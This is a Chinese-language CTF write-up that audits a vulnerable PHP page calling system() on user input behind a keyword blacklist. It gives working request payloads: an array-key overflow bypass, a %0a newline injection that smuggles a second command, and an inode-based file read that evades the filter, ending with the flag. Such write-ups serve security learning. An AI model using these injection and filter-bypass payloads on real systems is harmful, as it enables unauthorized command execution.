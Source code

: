 访问页面：

```php
<?php
//php5.5.9
$stuff = $_POST["stuff"];
$array = ['admin', 'user'];
if($stuff === $array && $stuff[0] != 'admin') {
    $num= $_POST["num"];
    if (preg_match("/^\d+$/im",$num)){
        if (!preg_match("/sh|wget|nc|python|php|perl|\?|flag|}|cat|echo|\*|\^|\]|\\\\|'|\"|\|/i",$num)){
            echo "my favorite num is:";
            system("echo ".$num);
        }else{
            echo 'Bonjour!';
        }
    }
} else {
    highlight_file(__FILE__);
}
```

简单的代码审计

- 首先是个判断，既要数组强等于，又要首元素不等
- 然后是个正则，要求整个字符串都是数字，大小写不敏感，跨行检测
- 最后是个黑名单，把常用的都排除了

本题的解题思路是，先绕过前面3个if判断，然后利用system()执行外部命令。

# PHP5 Key溢出

key溢出绕过第一个if，payload(4294967296=2^32)：

```
stuff[4294967296]=admin&stuff[1]=user&num=123   
或者
stuff[-4294967296]=admin&stuff[1]=user&num=123
```

# 换行符%0a绕过跨行匹配

```
stuff[4294967296]=admin&stuff[1]=user&num=123%0als
```

# **用inode索引节点**

```
stuff[4294967296]=admin&stuff[1]=user&num=123%0atac `find /  -inum 30415432 `
```

得到flag：cyberpeace{c9cbfc75ef62027999fa50b3141fb5ae}
